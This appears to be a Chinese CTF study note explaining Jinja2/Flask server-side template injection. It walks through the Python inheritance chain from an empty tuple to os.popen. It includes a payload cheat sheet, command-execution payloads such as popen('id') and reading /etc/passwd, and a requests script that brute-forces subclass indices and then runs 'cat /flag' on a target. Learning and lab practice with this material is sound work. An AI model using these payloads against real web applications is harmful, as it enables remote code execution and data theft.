

## 一句话概括

模板上下文里**没有 `os`、没有 `__import__`、没有 `subprocess`**。但 Python 里「一切皆对象」，任何对象都能顺着 `类 → 父类 → 子类 → 函数的全局命名空间` 这一条链，爬到**已经加载过的任意模块**，最终摸到 `os.popen` 执行命令。

## 原理

### 1. 为什么要绕这么远

Jinja2 渲染模板时，能直接写在 `{{ }}` 里的名字只有引擎主动塞进上下文的那几个：

| 上下文可用的名字 | 来源 |
|---|---|
| `config` | Flask 应用配置 |
| `request` / `session` | 当前请求 / 会话 |
| `url_for` / `get_flashed_messages` / `lipsum` | Flask 内置的模板全局函数 |
| `self` / `namespace` / `cycler` / `joiner` | Jinja2 自带的工具对象 |

这些里头**没有命令执行能力**。所以攻击者的思路不是「找一个现成的后门函数」，而是**借一个对象当跳板，爬到 Python 解释器里去找**。这条路就是 Python 的类继承体系 —— 它在模板里同样畅通无阻，因为模板表达式求值用的就是真实的 Python 对象。



### 2. 继承链每一跳的目的（核心）

以 `().__class__.__base__.__subclasses__()[i].__init__.__globals__['popen']('id').read()` 为例：

| 跳 | 表达式片段 | 拿到的东西 | 为什么要这一跳 |
|---|---|---|---|
| 0 | `()` | 一个空元组 | **起点**：模板里随手可得的一个对象 |
| 1 | `.__class__` | `<class 'tuple'>` | 进入「类型」世界，知道它属于哪个类 |
| 2 | `.__base__` | `<class 'object'>` | 沿父类上溯到根类（object 是所有类的共同祖先） |
| 3 | `.__subclasses__()` | 几百个类的列表 | **关键跃迁**：从「一个对象」跳到「解释器装载过的所有类」，可用面从 1 变成几百 |
| 4 | `[i]` | 某个有利用价值的子类 | 挑一个「模块里 import 过 os」的子类（如 `os._wrap_close`） |
| 5 | `.__init__` | 该类的构造函数 | 类本身没有 `__globals__`，必须借它身上的**函数对象** |
| 6 | `.__globals__` | 一个 dict（模块命名空间） | 函数定义时所在模块的全局变量，`import os` 的结果就在里面 |
| 7 | `['popen']`（或 `['os']`、`['__builtins__']`） | 真正能干活的函数 | 拿到命令执行入口 |
| 8 | `('id').read()` | 命令输出 | `popen` 返回的是文件型对象，`read()` 把输出读回来形成回显 |

一句话把这条链串起来：

```text
空元组 → tuple 类 → object 根类 → 所有子类 → 挑一个带 os 的子类
→ 它的构造函数 → 函数的全局命名空间 → 掏出 popen → 执行命令 → read() 回显
```

### 3. 用最小实验验证这些魔术方法

原笔记用四个类把每次调用都验证了一遍：

```python
class A: pass
class B(A): pass
class C(B): pass
class D(B): pass
c = C()

print(c.__class__)   # 当前对象属于哪个类
print(c.__class__.__base__)
```

运行结果（原笔记实测）：

| 表达式 | 返回 | 说明 |
|---|---|---|
| `c.__class__` | `<class '__main__.C'>` | `__class__` 取当前对象所属的类 |
| `c.__class__.__base__` | `<class '__main__.B'>` | `__base__` 取该类的父类 |
| `c.__class__.__base__.__base__` | `<class '__main__.A'>` | 再上溯一层 |
| `c.__class__.__base__.__base__.__base__` | `<class 'object'>` | 到顶了，object 是根 |
| `c.__class__.__mro__` | `(<class C>, <class B>, <class A>, <class object>)` | `__mro__` 返回完整的方法解析顺序元组 |
| `c.__class__.__mro__[1]` | `<class '__main__.B'>` | 用索引取父类，**索引从 0 开始** |
| `c.__class__.__mro__[1].__subclasses__()` | `[<class C>, <class D>]` | 列出 B 的**直接**子类 |
| `c.__class__.__mro__[1].__subclasses__()[1]` | `<class '__main__.D'>` | 取其中一个 |
| `c.__mro__` | **报错** | 实例对象没有 `__mro__`，必须先 `.__class__` |

> 原笔记结论：`__class__` 请求当前类，`__base__` 请求类的父类；`__mro__` 是整条继承链，`[1]` 就是父类。实验里 `c` 是实例，所以 `c.__mro__` 会报错，要用 `c.__class__.__mro__`。

### 4. `object.__subclasses__()` 到底返回了什么

```python
print(object.__subclasses__())
```

```text
[<class 'type'>, <class 'async_generator'>, <class 'bytearray_iterator'>, ...]
```

它返回的是**当前解释器里已经加载的所有 object 子类**，包括：

- 内置类（`list`、`dict`、`str` …）
- 系统 / 标准库里的类（`warnings.catch_warnings`、`os._wrap_close`、`_frozen_importlib_external.FileLoader` …）
- 你自己定义的类

**这就是这条链的价值所在**：模板本来只能看到几个变量，但 `__subclasses__()` 一次性把整个 Python 运行时里所有可用的类摊开在你面前。原笔记的注释写得很形象 —— 「即 object 后跟一个全子集」。

### 5. 怎么挑可用子类、怎么找函数

拿到子类列表后，目标是在某个类的 `__globals__`（模块命名空间）里找到危险函数。原笔记的做法是**先看有哪些模块，再搜函数名**：

```python
{{ ''.__class__.__base__.__subclasses__()[i].__init__.__globals__ }}
```

搜这些关键词：

| 关键词 | 含义 |
|---|---|
| `popen` / `system` | 命令执行入口（`system` 无回显） |
| `eval` / `exec` | 代码执行 |
| `__builtins__` | 内置函数字典，里面有 `__import__`、`open`、`eval` |
| `os` / `os.py` | 说明该模块 import 过 os |

找到之后直接调用。原笔记的例子：

```python
# 调用 os.popen 执行命令
{{().__class__.__base__.__subclasses__()[i].__init__.__globals__['popen']('id').read()}}
```

> tips：`.read()` 是为了让命令**有回显** —— `popen` 本身只返回一个文件型对象，不读出来页面上什么都看不到。

截至目前的手法总结（原笔记）：

1. 先用简单语句（如 `{{7*7}}`）判断是否存在 SSTI 漏洞
2. 抓其父类 `object`（通过符号的类去追最终父类，即 object）
3. 查找可用函数
4. 使用可用函数

### 6. 参数怎么传：GET / POST / Cookie

Payload 最终要作为参数发给目标。原笔记在这里踩过一个概念坑 —— 把 URL 参数当成了 Linux 命令：

| 场景 | 写法 | 含义 |
|---|---|---|
| **Linux 终端** | `cat /flag` | 在服务器上查看文件内容 |
| **Web URL** | `?cat=value` | 给网页**传递参数**，`cat` 只是参数名 |

`?` 后面是 **URL 查询字符串**（query string），不是固定格式：

```text
http://域名/路径?参数1=值1&参数2=值2&...
```

- `?`：开始查询参数
- `ben=testuser`：参数名 = 参数值
- 多个参数用 `&` 连接：`?ben=testuser&age=20&city=beijing`

三种提交方式（以把索引 `i`、函数名、命令都做成参数为例）：

```text
# GET：把参数放进 URL
/?popen=popen&cmd=cat /etc/passwd

# POST：参数放进请求体（Content-Type: application/x-www-form-urlencoded）
popen=popen&cmd=ls

# Cookie：参数放进 Cookie 头（当 args/form 都被过滤时可用）
```

> 原笔记实测（靶机地址已抽象化）：
>
> - 表单 POST 提交后，URL 显示为 `http://靶机地址/success/benben`
> - GET 提交 `http://靶机地址/login?ben=dazhuang` 后，URL 显示为 `http://靶机地址/success/dazhuang`
> - 原文的疑问「`login?` 是什么固定格式吗」—— 答案是不是，`login` 只是路由路径，`?ben=...` 才是查询参数。
>
> 此处原为 Cookie 提交的截图，要点：把 payload 与 `popen` / `cmd` 参数放进 `Cookie` 请求头，供 `request.cookies` 读取。

## 利用条件

1. **已确认存在 SSTI**（能用 `{{ }}` 求值，见《SSTI原理与Flask模板引擎》）
2. **能访问对象属性 / 魔术属性**：`__class__`、`__subclasses__`、`__globals__` 等没有被完全过滤
3. **目标子类确实被加载**：`__subclasses__()` 的索引随环境而变，需要先探测
4. **有回显**：`read()` 的结果能出现在响应里（否则走《无回显SSTI》）

## Payload 速查

| 目的 | Payload |
|---|---|
| 起点对象（三选一，防过滤） | `()`、`''`、`[]`、`{}` 、`''\|attr(...)` |
| 直接取 object | `().__class__.__base__` 或 `''.__class__.__bases__[0]` 或 `().__class__.__mro__[1]` |
| 列出全部子类 | `().__class__.__base__.__subclasses__()` |
| 取第 i 个子类的模块命名空间 | `().__class__.__base__.__subclasses__()[i].__init__.__globals__` |
| 命令执行（有回显） | `...__globals__['popen']('id').read()` |
| 命令执行（拿 os） | `...__globals__['os'].popen('id').read()` |
| 通过 builtins 导入 os | `...__globals__['__builtins__']['__import__']('os').popen('id').read()` |

## 完整示例：批量探测可用的子类索引

子类顺序随环境变化，脚本逐个索引试，命中包含 `os` 的那个即可利用：

```python
import requests

url = "http://靶机地址/"
payload_tpl = "{{{{''.__class__.__base__.__subclasses__()[{i}].__init__.__globals__.keys()}}}}"

for i in range(500):
    try:
        r = requests.get(url, params={"name": payload_tpl.format(i=i)}, timeout=3)
        if r.status_code == 200 and 'os' in r.text:
            print(f"[+] 索引 {i} 的 globals 里含 os")
    except Exception:
        pass
```

命中后把 `keys()` 换成 `['os'].popen('id').read()`：

```python
flag = requests.get(
    url,
    params={"name": "{{''.__class__.__base__.__subclasses__()[" + str(i) +
                     "].__init__.__globals__['os'].popen('cat /flag').read()}}"},
).text
print(flag)
```

## 踩坑与备注

- **`c.__mro__` 报错是正常的**：`__mro__` 属于类，不属于实例，必须写 `c.__class__.__mro__`。模板里同理，起点要先用 `.__class__`。
- **索引不固定**：`__subclasses__()[i]` 的 `i` 取决于目标环境加载了哪些模块，**不能照抄别人的数字**，一定要自己扫一遍。
- **`''` / `""` / `[]` / `{}` / `()` 效果一样**：都是随手可得的对象，只是类型不同。原笔记的注释指出「并没有差别，用来防过滤编码」—— 当某种符号被 WAF 拦了，换另一种即可（详见《SSTI过滤绕过》）。
- **`system` 无回显**：`os.system('id')` 只把结果打到标准输出，不会出现在页面上；要回显就用 `popen(...).read()`。
- **原笔记里 `popen` 的例子只有截图**，其对应的完整链就是本文第 2 节那张表，可直接套用。
- **参数名要跟着题目走**：POST 提交时变量名（如 `name`）由源码决定，抓包或看源码确认；GET 则看 URL 里的参数名。
